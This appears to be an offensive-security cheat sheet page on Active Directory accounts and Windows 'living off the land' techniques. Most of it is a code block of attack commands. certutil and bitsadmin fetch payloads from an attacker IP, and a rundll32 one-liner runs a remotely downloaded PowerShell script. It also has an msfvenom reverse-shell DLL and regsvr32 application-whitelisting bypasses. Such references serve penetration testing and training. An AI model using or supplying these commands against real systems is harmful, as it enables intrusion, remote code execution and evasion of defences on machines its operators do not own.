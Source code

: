 ## Special groups

[#privileged-groups](ad/#privileged-groups "mention")

## Special accounts

### Service account&#x20;

Might have $ at the end

### Computer account&#x20;

Has $ at the end

## Living Off the Land (LOLBAS)

It means take advantage of the built-in tools already installed on the target.

{% code overflow="wrap" fullWidth="true" %}
```csharp
# Sysinternals
https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
https://live.sysinternals.com/
Relevant ones: AccessChk, PSExec, ADExplorer, ProcDump, ProcMon, TCPView, PsTools, Portmon, Whois
# ADExplorer
https://krptyk.com/2023/10/22/adexplorer-tips/

# LOLBAS
https://lolbas-project.github.io/

# PROCMON
https://learn.microsoft.com/en-us/sysinternals/downloads/procmon

# File Operations
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
certutil -encode payload.exe Encoded-payload.txt
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe

# File execution (Signed Binary Proxy Execution or Indirect Command Execution)
explorer.exe /root,"C:\Windows\System32\calc.exe"
wmic.exe process call create winPEASx64.exe # creates a new process of a binary of our choice
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");

# Application Whitelisting Bypasses 
    C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
    C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll # create DLL for 32 bits
# Now run one of the following two commands, the second one is more advanced
c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
bash.exe -c calc.exe

# No PowerShell!
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```